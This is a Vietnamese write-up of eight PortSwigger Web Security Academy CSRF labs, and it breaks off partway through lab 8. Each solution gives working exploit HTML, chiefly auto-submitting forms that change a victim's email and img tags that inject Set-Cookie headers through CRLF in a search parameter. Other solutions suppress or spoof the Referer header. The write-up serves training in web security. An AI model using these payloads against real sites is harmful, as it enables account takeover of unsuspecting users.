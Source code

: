 # 1. CSRF vulnerability with no defenses
Vào exploit server, cấu hình đoạn HTML sau:

```
<form id="form" method="POST" action="https://0afb00eb04d9b8bec0d9405a00290069.web-security-academy.net/my-account/change-email">
<input type="hidden" name="email" value="attacker2@email.com">
</form>

<script>form.submit()</script>
```
Sau khi click "Deliver to victim", bài lab được giải thành công.

# 2. CSRF where token validation depends on request method
Request thay đổi email là `POST /my-account/change-email` với hai tham số `email` và `csrf`. Tuy nhiên nhận thấy nếu ta thay đổi request thành `GET /my-account/change-email?email=attacker%40gmail.com`, cho dù không có tham số `csrf` thì email vẫn bị thay đổi thành công

Vào exploit server cấu hình đoạn XML sau:

```
<img src=1 onerror="document.location='https://0a06005e03421b53c1c14436007600ad.web-security-academy.net/my-account/change-email?email=attacker@gmail.com'">
```
Sau khi click "Deliver to victim", bài lab được giải thành công.

# 3. CSRF where token validation depends on token being present
Ta thấy khi trong request không có tham số `csrf`, email vẫn bị thay đổi. Như vậy ta vào exploit server và cấu hình đoạn HTML:

```
<form method="POST" action="https://0a35003f047cea06c1019ee1003c006c.web-security-academy.net/my-account/change-email" id="form">
<input type="hidden" name="email" value="attacker@gmail.com">
</form>

<script>form.submit()</script>
```
Sau khi click "Deliver to victim", bài lab được giải thành công.

# 4. CSRF where token is not tied to user session
Đăng nhập vào tài khoản wiener:peter rồi vào trang "My account", lưu lại csrf token. Sau đó logout rồi đăng nhập vào tài khoản carlos:montoya, dùng session của carlos và csrf token đã lưu của wiener để submit một request `POST /my-account/change-email`. Kết quả email bị thay đổi. Như vậy giữa csrf và session không có mối liên hệ với nhau. Với một csrf token chưa được sử dụng, ta có thể submit với bất kỳ session nào.

Ta đăng nhập lại tài khoản wiener:peter, lưu lại csrf token là `w9lcvACTQ0fT30znoZiPT42ILgGHkFnF`, sau đó và exploit server để cấu hình đoạn HTML sau:

```
<form id="form" method="POST" action="https://0a1a008e03260d9ac1a3879500b300b3.web-security-academy.net/my-account/change-email">
<input type="hidden" name="email" value="attacker@gmail.com">
<input type="hidden" name="csrf" value="w9lcvACTQ0fT30znoZiPT42ILgGHkFnF">
</form>

<script>form.submit();</script>
```

Sau khi click "Deliver to victim", bài lab được giải thành công.

# 5. CSRF where token is tied to non-session cookie
Ta thấy trong form thay đổi email có chứa csrf token, tuy nhiên token này phụ thuộc vào cookie `csrfKey`, miễn là `csrfKey` và thuộc tính `csrf` phù hợp với nhau thì có thể submit thành công.

Trong chức năng search của website, thử `/?search=abc` thì thấy trong response có header `Set-Cookie: LastSearchTerm=abc; Secure; HttpOnly`. Ta sẽ thử xem có thể thiết lập một cookie mới với chức năng Search hay không. Gửi request `GET /?search=abc%0D%0ASet-Cookie:+abc%3Ddef`, ta thấy header `Set-Cookie` trong response đã bị xuống dòng và thêm một header Set-Cookie mới:

![image](https://user-images.githubusercontent.com/103978452/209636281-7492097f-eaf0-4cda-bf42-fcd4fbda9dd6.png)

Như vậy, ta thử ghi đè lên cookie csrfKey bằng cách gửi request: `GET /?search=abc%0D%0ASet-Cookie%3A+csrfKey%3D4tSIrRxNcvsF3dGtffgvaYuQI6DOfybx%3B+Path%3D%2F%3B+SameSite%3DNone`.

Kết quả như sau:

![image](https://user-images.githubusercontent.com/103978452/209636456-760b8977-96e6-4c40-85f9-94220d22f43b.png)

Như vậy, ta có thể thay đổi cookie csrfKey của nạn nhân. Ta có kịch bản tấn công như sau:

1) Từ session của mình, lấy ra cookie `csrfKey=4tSIrRxNcvsF3dGtffgvaYuQI6DOfybx` và token `csrf=Bt0qvdZVXoUpfTmoDGy54RJIxytRR1SP`
2) Dùng tag `<img>` để thay đổi cookie `csrfKey` của nạn nhân
3) Gửi request đổi email với csrf token đã có

Vào exploit server và cấu hình đoạn HTML sau:
```
<img src="https://0aa900e403ad1a02c0b0125d00b000d9.web-security-academy.net/?search=abc%0D%0ASet-Cookie%3A+csrfKey%3D4tSIrRxNcvsF3dGtffgvaYuQI6DOfybx%3B+Path%3D%2F%3B+SameSite%3DNone">
<form id="form" method="POST" action="https://0aa900e403ad1a02c0b0125d00b000d9.web-security-academy.net/my-account/change-email">
<input type="hidden" value="attacker00022@gmail.com" name="email">
<input type="hidden" value="Bt0qvdZVXoUpfTmoDGy54RJIxytRR1SP" name="csrf">
</form>
<script>form.submit()</script>
```

Sau khi click "Deliver to victim", kết quả thành công.

# 6. CSRF where token is duplicated in cookie
Ta thấy chỉ cần cookie `csrf` và csrf token trong request là hai chuỗi giống nhau thì request đổi email sẽ thành công. Và trong website vẫn có lỗi chèn thêm header như trong lab #5.

Để thay đổi cookie `csrf=abc`, ta gửi request sau:
```
GET /?search=abc%0d%0aSet-Cookie%3A+csrf%3Dabc%3B+Path%3D%2F%3B+SameSite%3DNone HTTP/1.1
```

Vào trong exploit server và cấu hình đoạn HTML sau:
```
<img src="https://0a1f008803dca8b6c277137100120000.web-security-academy.net/?search=abc%0d%0aSet-Cookie%3A+csrf%3Dabc%3B+Path%3D%2F%3B+SameSite%3DNone">
<form id="form" method="POST" action="https://0a1f008803dca8b6c277137100120000.web-security-academy.net/my-account/change-email">
<input type="hidden" name="email" value="attacker@gmail.com">
<input type="hidden" name="csrf" value="abc">
</form>
<script>form.submit()</script>
```

Sau khi submit, bài lab được giải thành công.

# 7. CSRF where Referer validation depends on header being present
Ta thấy việc email có được thay đổi thành công hay không phụ thuộc vào việc Referer header có domain là `https://0a90007603f431c2c167ad45006f00b0.web-security-academy.net` hay không. Tuy nhiên nếu ta xóa đi Referer header, email vẫn bị thay đổi.

Như vậy, ta vào exploit server và cấu hình đoạn HTML sau:
```
<html>
<head>
<meta name="referrer" content="never">
</head>
<body>
<form id="form" method="POST" action="https://0a90007603f431c2c167ad45006f00b0.web-security-academy.net/my-account/change-email">
<input type="hidden" name="email" value="attacker@gmail.com">
</form>

<script>form.submit()</script>
</body>
</html>
```

Thẻ `<meta name="referrer" content="never">` sẽ ngăn không đưa dữ liệu vào header Referer của request tiếp theo. Sau khi click "Deliver to victim", kết quả thành công. 

# 8. CSRF with broken Referer validation
Ta thấy chỉ khi Referer header có domain là `https://0af000b004b75bb2c19df8f1007a00bf.web-security-academy.net` thì request đổi email mới được thực hiện thành công. Thử với payload là `https://attacker.com#https://0af000b004b75bb2c19df8f1007a00bf.web-security-academy.net`, kết quả email vẫn bị đổi. Như vậy server chỉ kiểm tra trong Referer header có chứa chuỗi `https://0af000b004b75bb2c19df8f1007a00bf.web-security-academy.net` hay không.

Vào exploit server
